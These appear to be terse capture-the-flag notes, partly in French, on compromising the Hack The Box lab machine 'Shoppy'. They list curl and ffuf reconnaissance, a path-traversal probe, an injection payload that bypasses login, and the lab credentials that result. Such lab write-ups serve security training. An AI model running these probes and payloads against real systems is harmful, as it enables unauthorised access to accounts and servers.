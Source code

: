# 10.10.11.180

# curl head get X
curl -I --head http://shoppy.htb/login?error=../../1

# faille possible
OSVDB-3092: /login/: This might be interesting...

# dns enum
ffuf -u http://shoppy.htb -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.shoppy.htb" | grep 200

# fs 169 response size
ffuf -u http://shoppy.htb -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.shoppy.htb" -fs 169

# /etc/host
mattermost.shoppy.htb

http://mattermost.shoppy.htb/login

#sql injection
admin'||'1==1

# connection login http://mattermost.shoppy.htb/login
username : josh
pasword : remembermethisway

# connection ssh
username : jaeger
password : Sh0ppyBest@pp! 